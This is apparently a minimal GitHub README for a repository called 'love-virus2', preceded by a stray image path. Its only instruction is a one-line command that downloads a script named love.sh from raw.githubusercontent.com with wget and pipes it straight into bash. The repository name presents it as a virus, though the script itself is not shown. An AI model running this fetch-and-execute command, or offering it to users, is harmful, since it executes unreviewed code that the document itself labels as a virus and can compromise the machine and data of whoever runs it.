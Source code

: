 # love-virus2

wget -O - https://raw.githubusercontent.com/Simplehacker1Community/love-virus2/simplehacker/love.sh | bash
